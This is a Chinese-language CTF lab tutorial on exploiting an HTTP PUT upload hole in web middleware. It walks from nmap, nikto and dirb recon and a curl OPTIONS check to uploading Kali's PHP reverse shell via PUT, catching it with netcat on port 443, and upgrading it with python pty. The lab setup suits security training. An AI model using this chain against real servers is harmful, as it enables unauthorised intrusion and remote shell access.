# CTF网络安全教程：P18：16.18.PUT上传漏洞

## 概述
在本节课中，我们将要学习CTF比赛中一种常见的漏洞类型——中间件PUT上传漏洞。我们将了解其原理，并通过一个完整的实验，学习如何利用该漏洞从外部获取目标服务器的Shell，最终目标是获得root权限和flag值。

## 中间件PUT漏洞介绍
上一节我们介绍了CTF训练中的各种漏洞类型，本节中我们来看看中间件PUT上传漏洞。

中间件包括Apache、Tomcat、IIS、WebLogic等程序。这些中间件可以设置支持多种HTTP方法。HTTP方法包括GET、POST、HEAD、DELETE、PUT、OPTIONS等。

每一个HTTP方法都有其对应的功能。在这些方法中，PUT方法可以直接从客户机上传文件到服务器。恶意攻击者可以利用中间件开放的PUT方法，直接上传Web Shell到服务器指定的目录。

如果可以成功上传Shell，也从侧面反映出PUT漏洞的严重性。




## 实验环境搭建
下面我们来介绍一下今天的实验环境。



*   攻击机：使用Kali Linux，IP地址为 `192.168.1.111`。
*   靶场机器：使用Linux系统，IP地址为 `192.168.1.102`。

我们已经拿到了实验环境，在进行任何操作前，都需要明确一个目的：获取靶场机器的root权限，得到对应的flag值。


## 信息收集与探测
现在我们已经拿到了对应的实验环境，首先要进行第一步：信息收集。



首先，我们可以扫描主机开放的全部端口，这里使用Nmap工具。

以下是使用Nmap进行快速全端口扫描的命令：
```bash
nmap -T4 -p- 192.168.1.102
```
*   `-T4` 表示使用最快速度进行探测。
*   `-p-` 表示扫描该机器的所有端口。

因为扫描的是所有端口，需要发送大量数据包，使用最快速度可以避免等待时间过长。


除了扫描端口，我们还可以扫描主机的其他详细信息。这里依然使用Nmap，加载所有扫描模块进行探测。

以下是使用Nmap进行深度扫描的命令：
```bash
nmap -T4 -A -v 192.168.1.102
```
*   `-A` 表示启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v` 表示详细输出扫描结果。


很快，深度扫描也完成了。从扫描结果中，如果发现开放了HTTP服务，我们就可以使用其他工具对HTTP服务进行进一步探测。

这里我们使用 `nikto` 和 `dirb` 对靶场机器进行敏感信息探测。

以下是使用nikto进行Web漏洞扫描的命令：
```bash
nikto -host http://192.168.1.102
```
因为HTTP服务使用的是默认的80端口，所以端口号可以省略。

我们也可以使用目录探测工具 `dirb`，对靶场上的敏感目录信息进行探测。



以下是使用dirb进行目录爆破的命令：
```bash
dirb http://192.168.1.102
```



## 信息分析与漏洞初步挖掘
在探测完毕之后，我们需要对当前探测得到的信息进行深入挖掘，分析Nmap、nikto和dirb的扫描结果，从中找到可以利用的信息。

例如，如果有HTTP服务，就可以使用浏览器打开对应的页面，查看敏感信息。

分析Nmap的扫描结果：
*   该靶场机器开放了22号端口（SSH服务）和80端口（HTTP服务）。
*   在详细扫描信息中，可以看到目标中间件的类型、支持的HTTP方法、操作系统内核版本等信息。

分析nikto的扫描结果：
*   显示当前有一些HTTP响应头没有被正确设置，可能造成安全隐患。
*   探测出当前使用的PHP版本是5.3.1。
*   但未扫描出明显的高危敏感信息。

分析dirb的扫描结果：
*   扫描出两个敏感的路径或目录。
*   在浏览器中打开第一个URL，发现是一张图片，查看源代码后未发现可利用信息。
*   打开第二个目录 `/test`，发现是一个空目录。


## 使用自动化工具进行漏洞扫描
对于开放的HTTP服务，我们可以使用自动化漏洞扫描器进行扫描。这里使用OWASP ZAP（Zed Attack Proxy）来自动挖掘Web程序中的漏洞。

在Kali终端中启动OWASP ZAP，在目标地址栏输入 `http://192.168.1.102` 并开始攻击扫描。

扫描器会先进行自动爬虫，然后对发现的页面进行漏洞扫描。由于目标站点较小，扫描速度较快。扫描结果中未发现高危漏洞，仅有一些中低危漏洞，例如缺少安全响应头、目录浏览等。

难道此时就没有任何漏洞可以利用了吗？并非如此。我们还需要手动测试目标是否存在PUT上传漏洞。

## 手动检测PUT漏洞
下面我们手动测试 `/test` 目录是否存在PUT漏洞。这里使用 `curl` 工具。



以下是使用curl检测HTTP方法的命令：
```bash
curl -v -X OPTIONS http://192.168.1.102/test
```
*   `-v` 输出详细信息。
*   `-X OPTIONS` 指定使用OPTIONS方法，用于查询服务器支持的HTTP方法。

从服务器的响应报文中，我们可以看到该目录允许的HTTP方法列表。在这个列表中，如果包含 **PUT** 方法，则说明该目录存在PUT上传漏洞。



检测发现，该目录确实支持PUT方法，证实了PUT漏洞的存在。



## 利用PUT漏洞上传Web Shell
我们利用PUT漏洞获取Shell的思路是：上传一个Web Shell到服务器，然后通过访问该Web Shell的路径来执行它。接着，在攻击机上监听一个端口，等待Web Shell反弹连接回来，从而获得靶场机器的Shell。



### 准备Web Shell
首先，我们需要准备一个Web Shell文件。我们使用一个PHP反弹Shell。



1.  在Kali上找到常用的Web Shell，例如 `usr/share/webshells/php/` 目录下的文件。
2.  将其复制到桌面，并重命名为 `shell.php`。
3.  编辑这个PHP文件，将其中的反弹IP和端口设置为攻击机的IP和监听端口。
    *   攻击机IP：`192.168.1.111`
    *   监听端口：`443` (使用此端口有时可以绕过防火墙限制)



编辑后的关键部分类似如下代码：
```php
$ip = ‘192.168.1.111’;
$port = 443;
```




### 上传Web Shell
我们使用浏览器插件 “Postman” 或 “REST Client” 来发送PUT请求，上传Shell文件。

1.  在插件中，选择PUT方法。
2.  URL设置为：`http://192.168.1.102/test/shell.php`
3.  在Body中选择上传文件，选中我们编辑好的 `shell.php`。
4.  发送请求。








上传成功后，访问 `http://192.168.1.102/test/` 目录，应该能看到 `shell.php` 文件。



### 建立监听并执行Shell
上传完Web Shell之后，我们需要在攻击机上监听一个端口，等待连接。

以下是使用netcat (nc) 开启监听的命令：
```bash
nc -nlvp 443
```
*   `-n` 直接使用IP地址，不进行DNS解析。
*   `-l` 监听模式。
*   `-v` 详细输出。
*   `-p 443` 指定监听端口为443。


监听开启后，在浏览器中访问我们上传的Web Shell文件：`http://192.168.1.102/test/shell.php`。





此时，攻击机的netcat终端会接收到靶场机器反弹回来的Shell连接。


### 优化Shell交互
反弹回来的Shell可能是一个简单的标准输入输出，交互性差，无法运行如 `sudo` 等需要tty终端的命令。

我们可以使用Python的 `pty` 模块来生成一个功能更完整的终端。



在获取的Shell中执行以下命令：
```bash
python -c “import pty; pty.spawn(‘/bin/bash’)”
```
或者将命令写入文件再执行：
```bash
echo “import pty; pty.spawn(‘/bin/bash’)” > /tmp/shell.py && python /tmp/shell.py
```



执行后，我们将获得一个更友好的bash Shell。

## 权限确认与后续思路
上传并执行Web Shell后，我们可以执行命令来查看当前权限。

以下是查看当前用户和权限的命令：
```bash
id
whoami
```


